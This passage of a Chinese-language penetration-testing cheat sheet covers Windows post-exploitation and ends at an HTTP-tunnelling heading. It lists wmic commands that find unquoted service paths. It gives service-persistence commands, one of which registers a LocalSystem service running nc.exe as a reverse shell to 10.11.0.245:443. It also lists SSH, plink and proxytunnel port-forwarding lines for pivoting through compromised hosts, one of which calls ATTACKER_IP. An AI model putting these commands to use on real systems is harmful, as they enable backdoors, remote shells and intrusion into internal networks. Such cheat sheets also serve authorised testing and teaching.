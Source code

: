 #### Unquoted 服务路径

```text
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

#### Persistence via 服务

```text
# cmd
sc create spotlessSrv binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""

# powersehll
New-Service -Name EvilName -DisplayName EvilSvc -BinaryPathName "'C:\Program Files\NotEvil\back.exe'" -Description "Not at all"
```

**端口转发/ SSH隧道**

**SSL:本地端口转发**

```text
# 监听本地端口8080，并通过SSH_SERVER将传入流量转发到REMOT_HOST: port
# 通过SSH_SERVER访问被防火墙阻止的主机;
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

**SSH:端口动态转发**

```text
# 监听本地端口8080。进入127.0.0.1:8080的流量通过SSH_SERVER将其转发到最终目的地
# 场景:通过SSH隧道代理您的web流量，或通过受损的DMZ框访问内部网络上的主机;
ssh -D 127.0.0.1:8080 user@SSH_SERVER
```

**SSH:远程端口转发**

```text
# 场景:通过SSH隧道代理您的web流量，或通过受损的DMZ框访问内部网络上的主机;
# 在非路由网络上暴露RDP;
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
plink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP
```

**代理隧道**

```text
# 打开本地端口127.0.0.1:5555。进入5555的流量通过PROXY_HOST:3128代理到DESTINATION_HOST
# 场景:远程主机运行SSH，但是它只绑定到127.0.0.1，但是您想要到达它;
proxytunnel -p PROXY_HOST:3128 -d DESTINATION_HOST:22 -a 5555
ssh user@127.0.0.1 -p 5555
```

**HTTP隧道:SSH Over HTTP**
